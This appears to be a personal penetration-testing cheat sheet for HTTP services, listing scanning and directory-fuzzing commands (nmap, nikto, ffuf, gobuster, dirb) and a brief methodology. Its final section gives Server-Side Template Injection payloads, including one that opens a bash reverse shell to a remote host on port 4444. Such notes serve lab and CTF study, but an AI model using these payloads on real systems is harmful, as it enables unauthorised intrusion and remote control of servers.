 ```yaml
---
  title: "HTTP"
  weight: 3
  chapter: true
---
```

nikto -host

Port and service scanning
nmap -sV --script=http-enum 192.168.120.62

curl -v http://192.168.120.62:8000


FUZZING
ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://147.102.33.187/FUZZ"
gobuster dir --url 10.129.227.155 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.11.100/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -x php

dirb http://192.168.120.62:8000


HTTP Methodology

- identify http port
- identify services version
- identify stack (wordpress, joumla etc.)


Check if web app is vulnerable to Server-Side Template Injection
URL: 192.248.251.3:8000/{{7*’7'}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read()}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(“bash -c ‘bash -i >& /dev/tcp/192.248.251.2/4444 0>&1’”).read()}}

xsser tool
